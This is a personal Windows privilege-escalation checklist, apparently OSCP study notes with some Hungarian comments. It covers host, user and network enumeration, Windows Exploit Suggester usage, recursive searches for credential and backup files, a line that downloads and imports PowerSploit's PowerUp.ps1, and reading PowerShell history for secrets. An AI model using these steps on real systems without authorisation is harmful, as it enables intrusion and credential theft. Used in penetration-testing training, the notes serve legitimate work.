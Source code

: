 # Windows Privilege Escalation Checklist
## Situational Awareness
* Hostname, username, current user - privileges and group memberships, current dir, common dirs, etc...
  * hostname
  * whoami
  * whoami /priv
  * whoami /groups
  * cd, dir, dir C:\, dir C:\Users, tree /F
* Existing users and groups
  * net user
  * net user User1
  * net localgroup
  * net localgroup Administrators
  * query user
* Operating system, version and architecture
  * systeminfo
  * ver
* Network information
  * ipconfig /all
  * netstat -ano
  * route print
  * arp -a
* Shared resources (not only folders, but printers and other hosts too through SMB)
  * net share
  * net view
* Running processes
  * tasklist
  * tasklist /svc
* Installed applications
  * WMIC
    * C:\> wmic [ENTER] product get name, version [ENTER]
    * varni kell egy kicsit, nem ad egybol eredmenyt
    * lehet erdemes redirectelni az eredmenyt egy file-ba (product get name, version > output.txt)
  * Powershell
  <pre>
  PS> Get-ItemProperty "HKLM:\SOFTWARE\Wow6432Node\Microsoft\Windows\CurrentVersion\Uninstall\*" | select displayname
  PS> Get-ItemProperty "HKLM:\SOFTWARE\Microsoft\Windows\CurrentVersion\Uninstall\*" | select displayname
  </pre>
  * Listing C - Program Files folders
    * C:\> dir "C:\Program Files"
    * C:\> dir "C:\Program Files (x86)"
## Windows Exploit Suggester
### info
* Source: (sajnos nincs meg hogy honnan szedtuk, de python file, az tuti)
* ennyi info van rola, a file header reszeben
<pre>
# Windows Exploit Suggester
# revision 3.3, 2017-02-13
#
# author: Sam Bertram, Gotham Digital Science
# contact: labs@gdssecurity.com,sbertram@gdssecurity.com,sammbertram@gmail.com
# blog post: "Introducing Windows Exploit Suggester", http://blog.gdssecurity.com/
# Blog Post: "Introducing Windows Exploit Suggester", https://blog.gdssecurity.com/labs/2014/7/11/introducing-windows-exploit-suggester.html
</pre>
### method
* ha python hiba van, akkor
  * python3-al probaljuk meg futtatni
    * sudo apt install python3-xlrd
    * kell bele plusz 1 sor
      * from io import StringIO
  * pip install xlrd --upgrade
<pre>
<b># victim machine</b>
C:\> systeminfo
(copy output to a txt file on attack machine)

<b># attack machine</b>
$ ./windows-exploit-suggester.py --update

$ ./windows-exploit-suggester.py --database 2014-06-06-mssb.xlsx --systeminfo sysinfo.txt
(vagy)
$ python3 windows-exploit-suggester.py --database 2014-06-06-mssb.xlsx --systeminfo sysinfo.txt
</pre>
## File permissions
* cmd
<pre>
C:\> icacls "C:\Users\user1\desktop\test.exe"
C:\Users\user1\desktop\test.exe
BUILTIN\Administrators:(F)
NT AUTHORITY\SYSTEM:(F)
BUILTIN\Users:(RX)
NT AUTHORITY\Authenticated Users:(RX)
Successfully processed 1 files; Failed processing 0 files
</pre>
* powershell
<pre>
PS> Get-Acl "C:\Users\user1\desktop\test.exe"
...
</pre>
## Searching Files and Folders
* Searching files by extension
<pre>
PS> Get-ChildItem -Path C:\ -Include *.txt,*.ini,*.conf,*.xml,*.json,*.yml,*.yaml,*.kdbx,*.bak,*.bck,*.old -File -Recurse -ErrorAction SilentlyContinue
PS> Get-ChildItem -Path C:\ -Include *.bat,*.vbs,*.js,*.asp,*.aspx,*.js,*.ps1,*.psm1,*.php,*.jar,*.jsp -File -Recurse -ErrorAction SilentlyContinue
PS> Get-ChildItem -Path C:\ -Include *.txt,*.pdf,*.xls,*.xlsx,*.xlsm,*.doc,*.docx,*.docm,*.ppt,*.pptx -File -Recurse -ErrorAction SilentlyContinue
PS> Get-ChildItem -Path C:\ -Include *.rar,*.zip,*.iso,*.tar,*.7z -File -Recurse -ErrorAction SilentlyContinue
</pre>
* Searching 'modifiable service files' (with Powersploit's PowerUp.ps1)
<pre>
PS> Invoke-WebRequest -Uri "https://github.com/PowerShellMafia/PowerSploit/blob/master/Privesc/PowerUp.ps1" -OutFile .\PowerUp.ps1
PS> Import-Module .\PowerUp.ps1
PS> Get-ModifiableServiceFile
</pre>
## Powershell history
<pre>
PS> Get-History

PS> (Get-PSReadlineOption).HistorySavePath
C:\Users\dave\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt

PS> type C:\Users\dave\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt
</pre>
## Service Binary Hijacking
* PEN200.pdf 500. oldal...
## Service DLL Hijacking
* PEN200.pdf 507. oldal...
## Unquoted Service Paths
* PEN200.pdf 514. oldal...
## Scheduled Tasks
* PEN200.pdf 520. oldal...
## Common vulnerabilites and exploits
* Juicy Potato
* Printspoofer
* 
## Usefull sources
* Relevant HTB Academy modules
  * Active Directory Enumeration & Attacks
  * Windows Fundamentals
  * Introduction To Windows Command Line
  * Windows Privilege Escalation
* Other sources
  * PEN200.pdf (OSCP guide)

